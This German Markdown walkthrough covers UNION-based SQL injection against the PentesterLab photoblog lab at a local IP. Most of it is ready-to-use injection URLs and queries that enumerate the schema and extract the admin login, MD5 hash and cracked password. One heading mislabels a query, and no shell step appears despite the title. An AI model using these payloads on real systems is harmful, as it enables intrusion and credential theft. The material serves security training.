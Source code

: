 # SQL Injection to Shell – Exploitation Walkthrough

Dieses Dokument beschreibt einen vollständigen SQL-Injection-Angriff mit dem Ziel, Informationen aus der Datenbank zu extrahieren und Zugangsdaten zu erlangen. Die genutzte Zielanwendung basiert auf einer MySQL-Datenbank.

## 📌 Kontext

- **MySQL-Version:** 5.1.63-0+squeeze1  
- **Datenbank:** photoblog  
- **Benutzer:** pentesterlab@localhost  
- **Datenverzeichnis:** /var/lib/mysql/  

Ziel der folgenden Schritte ist es, über SQL Injection Zugriff auf sensible Daten zu erlangen, die zur weiteren Kompromittierung des Systems verwendet werden können.

---

## 🔍 Erste Tests

### Basistest
```http:
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,2,3,4 --+
```

### Version Anzeigen
```http:
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,version(),3,4 --+
```

### Aktive Datenbank anzeigen
```http
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,database(),3,4 --+
```

### Benutzer anlegen
```http
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,user(),3,4 --+
```

--- 

## 📂 Datenbankaufbau erkunden

### Datenbanken auflisten

```sql
UNION SELECT 1,group_concat(schema_name),3,4 FROM information_schema.schemata
```

**Ergebnis Beispiel:**
- information_schema
- photoblog

**Ziel-Datenbank: Beispiel:**
- photoblog

### Tabellen in der photoblog-Datenbank

```sql
UNION SELECT 1,group_concat(table_name),3,4 FROM information_schema.tables WHERE table_schema=database()
```

**Ergebnis Beispiel:**
- categories
- pictures
- users

### Spalten der Tabelle `users`

```sql
UNION SELECT 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_name=0x7573657273
```

***HINWEIS:*** 
0x7573657273 ist Hexadezimal aus dem Wort users

**Ergebnis Beispiel:**
- id
- login
- password

---

## 🔓 Benutzeranmeldeinformationen extrahieren

```http
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,group_concat(id,0x3a3a,login,0x3a3a,password),3,4 FROM users
```

**Ergebnis (entschlüsselt):** **Beispiel**
```cpp
1::admin::8efe310f9ab3efeae8d410a8e0166eb2
```

**Anmeldeinformationen:** **Beispiel**
- Benutzername: admin
- Passwort-Hash (MD5): 8efe310f9ab3efeae8d410a8e0166eb2
- Klartext-Passwort: P4ssw0rd

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!